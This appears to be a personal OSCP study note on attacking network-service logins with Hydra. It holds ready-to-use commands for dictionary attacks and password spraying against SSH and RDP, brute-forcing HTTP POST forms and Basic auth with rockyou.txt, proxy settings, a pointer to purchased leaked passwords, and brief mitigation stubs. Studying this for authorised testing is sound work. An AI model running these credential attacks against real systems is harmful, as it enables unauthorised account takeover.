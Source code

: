 ```yaml
---
aliases:
  - Attacking Network Services Logins
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - password
  - password_attacks
  - network_services
  - network_services_logins
author: Mehdi N Tehrani
creat_date: 2023-12-30
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# SSH and RDP
#ssh #rdp 
## Hydra
#hydra
```sh
hydra -l <login> -L <login_file> -p <password> -P <password_file> -C <colon separated login:pass file> -M <servers list file> -t <tasks(threads) def:16> <service>://<server>:<port>
```
### dictionary attack
#dictionary_attack 
```sh
hydra -l <username> -P <wordlist> ssh://<ip>:<port>
       ^ login       ^ password file

# example
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.247.201
```

### password spraying
#password_spraying 
```sh
hydra -L <username file> -p <password> ssh://<ip>:<port>
       ^ login file       ^ password

# example
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#"
rdp://192.168.247.202
       ^ login file
```
#### obtain leaked passwords
#leaked_password
Services such as [ScatteredSecrets](https://scatteredsecrets.com/) track password leaks and compromises and sell the plaintext passwords.


> [!info] We should always try to leverage every plaintext password we discover by spraying them against the target's systems. This could reveal users that use the same password across multiple systems.

> [!danger] However, we must also use caution when leveraging broad-range attacks.

### HTTP post form
#http_post_form #http_post
```sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.247.201 http-post-form "/index.php:fm_user=user&fm_pwd=^PASS^:Login failed. Invalid"
```

### HTTP Basic Authorization
#basic_authorization #http_basic_authorization
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.247.201 http-get
```

# Proxy
#hydra_proxy #proxy 
```
export HYDRA_PROXY="connect://<ip>:<port>"
export HYDRA_PROXY="socks4://<ip>:<port>"
export HYDRA_PROXY="socks5://<ip>:<port>"
```

# Mitigation
## Web Application Firewall (WAF)
#waf
## fail2ban 
#fail2ban
https://www.fail2ban.org/wiki/index.php/Main_Page
Locks a user out after a set number of failed login attempts

